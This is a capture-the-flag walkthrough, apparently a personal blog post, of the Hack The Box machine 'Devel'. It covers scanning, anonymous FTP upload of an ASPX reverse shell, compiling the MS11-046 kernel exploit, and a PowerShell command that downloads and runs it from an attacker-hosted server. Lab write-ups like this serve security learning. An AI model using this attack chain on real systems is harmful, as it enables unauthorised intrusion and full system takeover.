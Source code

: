 ```yaml
---
layout: single
title: Hack The Box - Devel 
permalink: /htb-devel/
excerpt: "Devel is an easy machine on the hackthebox platform. I can upload a webshell in FTP with anonymous login and get administrator/system using the Windows Kernel Exploits."
classes: wide
header:
  teaser: "/assets/images/htb/devel/home_img.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
tags:
  - aspx-reverse-shell
  - cve 
---
```



![1](/assets/images/htb/devel/home_img.png)


# <u>1:Enumeration</u>

- scan top 1000 ports

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result

![1](/assets/images/htb/devel/1000.png)

- all ports scan

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result

![1](/assets/images/htb/devel/all_ports.png)

### <u>Open Ports</u>
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

## <u>FTP</u>
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it

![1](/assets/images/htb/devel/ftp.png)

- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

## <u>WebPage</u>
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`

![1](/assets/images/htb/devel/welcome.png)

- COOL!

# <u>2:Foothold/Gaining Access</u>

## <u>ASPX Reverse Shell</u>
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command

![1](/assets/images/htb/devel/got_shell.png)

- I'm in as `iis apppool\web`

## <u>systeminfo</u>

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result

![1](/assets/images/htb/devel/systeminfo.png)

- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

# <u>3:Privilege Escalation</u>

## <u>MS11-046</u>

![1](/assets/images/htb/devel/exploit-db.png)

- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### <u>Compiling Exploit</u>
> <font color="yellow">Note: </font> If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
> Just run this command to install  it`apt install mingw-w64` 

- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### <u>Transfer the Exploit</u>
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.

![1](/assets/images/htb/devel/exe.png)

- YES! I'm become `SYSTEM`

## <u>User Flag</u>

![1](/assets/images/htb/devel/user.png)

## <u>Administrator Flag</u>

![1](/assets/images/htb/devel/admin.png)

# <u>4:Conclusion</u>
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)
